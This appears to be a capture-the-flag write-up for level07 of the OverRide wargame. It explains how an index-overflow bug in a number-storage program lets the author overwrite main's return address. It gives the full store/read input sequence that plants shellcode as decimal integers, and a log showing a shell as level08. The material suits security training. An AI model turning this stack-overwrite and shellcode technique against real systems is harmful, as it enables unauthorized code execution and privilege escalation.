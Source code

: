 This level wait for multiple commands like read, store, quit.

	----------------------------------------------------
	  Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	 Commands:                                          
	    store - store a number into the data storage    
	    read  - read a number from the data storage     
	    quit  - exit the program                        
	----------------------------------------------------
	   wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: 

After checking the code inside gdb, ghidra we've seen that a shellcode would do the job.

But there is 2 problems.
+ The main function flush the arguments and the env.
So we cannot store the shellcode in the env and pass the address as always. We must store it using the binary.

+ In store_number function the number will be stored only if the index is not % 3 and the most significant bit must not be equal to 0xb7.
After some check we can put any index in while we store so we'll just overflow the index to get the in the index % 3 values.

The data storage is inside the stack as tab[100], we will rewrite the main return address from the data storage.

After few research (alot) we found that return address of main is at index 114 inside the data storage.\
The plan is now to write the address of tab[100] inside the index 114, then we write our shellcode from the index 0.

Since the shellcode is not stored inside the env but in the data store we must reverse it and convert it to base 10.\
It will look like this.

	store
	4294956388
	1073741938
	store
	2425393296
	1073741824
	store
	2425393296
	1
	store
	2425393296
	2
	store
	2425393296
	1073741827
	store
	2425393296
	4
	store
	2425393296
	5
	store
	1750122545
	1073741830
	store
	1752379183
	7
	store
	1768042344
	8
	store
	2313390446
	1073741833
	store
	2965539265
	10
	store
	830524683
	11
	store
	2160935104
	1073741836
	read
	-9
	quit

This is our shell code with 
	store
	4294956388
	1073741938

As rewriting the return address of main.

Let's try it !

	level07@OverRide:~$ cat test3 - | ./level07 
	----------------------------------------------------
	  Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	 Commands:                                          
	    store - store a number into the data storage    
	    read  - read a number from the data storage     
	    quit  - exit the program                        
	----------------------------------------------------
	   wil has reserved some storage :>                 
	----------------------------------------------------

	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Number:  Index:  Completed store command successfully
	Input command:  Index:  Number at data[4294967287] is 4294956388
	 Completed read command successfully
	whoami
	level08

Let's head to the next level !
